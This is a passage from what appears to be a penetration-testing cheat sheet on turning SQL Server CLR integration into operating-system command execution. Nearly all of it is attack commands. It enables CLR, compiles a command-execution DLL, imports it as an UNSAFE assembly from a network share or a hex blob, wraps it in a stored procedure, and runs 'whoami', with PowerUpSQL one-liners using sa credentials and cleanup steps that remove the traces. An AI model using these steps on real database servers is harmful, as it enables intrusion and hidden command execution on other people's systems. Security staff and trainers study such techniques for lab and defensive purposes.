     GO
    -- Enable show advanced options on the server
    sp_configure 'show advanced options',1
    RECONFIGURE
    GO
    -- Enable clr on the server
    sp_configure 'clr enabled',1
    RECONFIGURE
    GO
    ```
- Create DLL:
    ```
    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /target:library C:\Users\labuser\Desktop\cmd_exec.cs
    ```
    ```powershell
    Create-SQLFileCLRDll -ProcedureName "runcmd" -OutFile runcmd -OutDir C:\Users\labuser\Desktop
    ```
- Import the assembly from file:
    ```sql
    CREATE ASSEMBLY my_assembly FROM '\\192.168.15.2\fileserver\cmd_exec.dll' WITH PERMISSION_SET = UNSAFE;
    GO
    ```
- Import the assembly from string:
    ```sql
    CREATE ASSEMBLY [NMfsa] AUTHORIZATION [dbo] FROM 0x4D5A90......
    ```
- Link the assembly to a stored procedure
    ```sql
    CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [my_assembly].[StoredProcedures].[cmd_exec];
    GO
    ```
- Execution:
    ```sql
    cmd_exec 'whoami'
    ```
    ```powershell
    Invoke-SQLOSCmdCLR -Username sa -Password pw -Instance instance -Command "whoami" -Verbose
    ```
- Cleanup:
    ```sql
    DROP PROCEDURE cmd_exec
    DROP ASSEMBLY my_assembly
    ```
- List all CLR assemblies:
    ```powershell
    Get-SQLStoredProcedureCLR -Instance instance -Verbose
    ```
